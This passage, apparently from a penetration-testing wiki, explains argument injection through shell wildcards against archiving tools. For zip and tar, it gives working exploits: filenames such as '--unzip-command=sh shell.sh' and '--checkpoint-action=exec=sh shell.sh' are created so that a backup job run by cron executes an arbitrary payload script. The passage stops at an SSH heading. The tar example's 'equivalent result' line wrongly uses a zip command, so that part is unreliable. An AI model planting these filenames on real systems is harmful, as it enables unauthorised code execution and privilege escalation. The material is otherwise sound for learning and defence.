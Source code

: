 One limitation you have is the fact that the `*` wildcard orders your arguments alphabetically. Luckily the `-` dash character comes before other alphanumeric characters, meaning our injected arguments will always be _first_. You just have to find a way to add arguments that allow you to do unintended things. \
Another bonus is that _almost all special characters_ are allowed in filenames and arguments, many unexpected ones even, if you just escape enough with `'` single quotes and/or escape sequences.

### Common programs

A common pattern is to use wildcards when making a backup of some files in a directory using [#automated-cron-jobs](command-triggers.md#automated-cron-jobs "mention"), so here are some ways to exploit such archiving tools:

#### ZIP

{% code title="Vulnerable command" %}
```bash
zip /tmp/backup.zip *
```
{% endcode %}

<pre class="language-shell-session" data-title="Exploit"><code class="lang-shell-session"><strong>$ nano shell.sh  # Any payload you want to execute
</strong><strong>$ touch -- '-T'
</strong><strong>$ touch -- '--unzip-command=sh shell.sh'
</strong>
# # Equivelent result:
$ zip /tmp/backup.zip -T --unzip-command='sh shell.sh'
</code></pre>

#### Tar

{% code title="Vulnerable command" %}
```shell-session
tar czf /tmp/backup.tar.gz *
```
{% endcode %}

<pre class="language-shell-session" data-title="Exploit"><code class="lang-shell-session"><strong>$ nano shell.sh  # Any payload you want to execute
</strong><strong>$ touch -- '--checkpoint=1'
</strong><strong>$ touch -- '--checkpoint-action=exec=sh shell.sh'
</strong>
# # Equivelent result:
$ zip /tmp/backup.zip --checkpoint=1 --checkpoint-action=exec='sh shell.sh'
</code></pre>

#### SSH

{% code title="Vulnerable command" %}
```bash
ssh "$input"@host command
```
{% endcode %}

